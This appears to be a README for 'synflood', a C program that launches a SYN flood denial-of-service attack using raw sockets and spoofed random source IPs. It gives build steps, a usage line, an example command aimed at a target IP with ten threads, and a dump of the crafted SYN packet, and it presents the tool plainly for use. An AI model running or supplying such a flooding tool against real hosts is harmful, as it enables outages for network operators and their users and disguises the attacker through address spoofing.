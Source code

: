 # synflood
SYN flood denial-of-service (DoS) attack coded in C using raw sockets. Generates random spoofed IPs at each new packet.

## Build

`make clean` <br>
`make`

## Usage

`sudo ./synflood <target_ip_address> <payload> <number_of_threads>`

## Example

`sudo ./synflood 1.2.3.4 OWNED 10`

Will create 10 threads which will send the following TCP/IP packet in loop:

```
***********************TCP Packet*************************

Ethernet Header
   |-Destination Address : XX-XX-XX-XX-XX-XX
   |-Source Address      : XX-XX-XX-XX-XX-XX  
   |-Protocol            : 8

IP Header
   |-IP Version        : 4
   |-IP Header Length  : 5 DWORDS or 20 Bytes
   |-Type Of Service   : 0
   |-IP Total Length   : 54  Bytes(Size of Packet)
   |-Identification    : 6082
   |-TTL               : 255
   |-Protocol          : 6
   |-Checksum          : 55149
   |-Source IP         : xxx.xxx.xxx.xxx
   |-Destination IP    : 1.2.3.4

TCP Header
   |-Source Port          : 28659
   |-Destination Port     : 80
   |-Sequence Number      : 0
   |-Acknowledge Number   : 0
   |-Header Length        : 5 DWORDS or 20 BYTES
   |-Urgent Flag          : 0
   |-Acknowledgement Flag : 0
   |-Push Flag            : 0
   |-Reset Flag           : 0
   |-Synchronise Flag     : 1
   |-Finish Flag          : 0
   |-Window               : 5840
   |-Checksum             : 41290
   |-Urgent Pointer       : 0

                        DATA Dump                         
Data Payload
    4F 57 4E 45 44 00 00 00 00 00 00 00 00 00               OWNED.........
```
